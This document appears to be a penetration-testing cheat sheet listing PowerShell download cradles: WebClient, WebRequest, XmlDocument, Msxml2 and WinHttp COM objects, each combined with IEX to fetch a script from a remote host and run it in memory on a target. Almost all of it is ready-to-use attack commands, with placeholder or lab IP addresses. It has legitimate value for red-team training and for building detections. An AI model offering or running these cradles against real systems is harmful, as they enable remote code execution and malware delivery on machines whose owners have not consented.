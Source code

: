 # Downloading File using Powershell and IEX

### Net.WebClient DownloadString Method

Most common download cradle. Use with IEX to run remote powershell scripts.

```text
powershell.exe iex (New-Object Net.Webclient).DownloadString('http://{ip}/{file}')
```

or by breaking it up:

```text
$downloader = New-Object System.Net.WebClient
$payload = "http://{ip}/{file}"
$command = $downloader.DownloadString($payload)
iex $command
```

### Net.WebClient DownloadFile Method

Noisy and not recommended. Will download file to disk.

```text
$downloader = New.Object System.Net.Webclient
$payload = "http://{ip}/{file}"
$local_file = "C:\programdata\payload.exe"
$downloader.DownloadFile($payload, $local_file)
```

```text
powershell -c "(new-object
System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Deskto
p\wget.exe')"
```

### Net.WebRequest

Used to download and execute scripts on target in memory.

```text
$req = [System.Net.WebRequest]::Create("http://{ip}/{file}")
$res = $req.GetResponse()
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()
```

### System.Xml.XmlDocument

First create a XML file with the following contents:

```text
<?xml version="1.0"?>
<command>
    <a>
        <execute>Get-Process</execute>
    </a>
</command>
```

Next we can use the System.Xml.XmlDocument class with the "Load" method to download and execute:

```text
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://{ip}/{file}.xml")
iex $xmldoc.command.a.execute
```

### Msxml2.XMLHTTP COM Object

```text
$downloader = New-Object -ComObject Msxml2.XMLHTTP
$downloader.open("GET", "http://{ip}/{file}", $false)
$downloader.send()
iex $downloader.responseText
```

### WinHttp.WinHttpRequest.5.1 COM Object

```text
$url=http://{ip}/{file}
$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$downloader.Option(4) = 13056
$downloader.open("GET", $url, $false)
$downloader.send()
iex $downloader.responseText
```

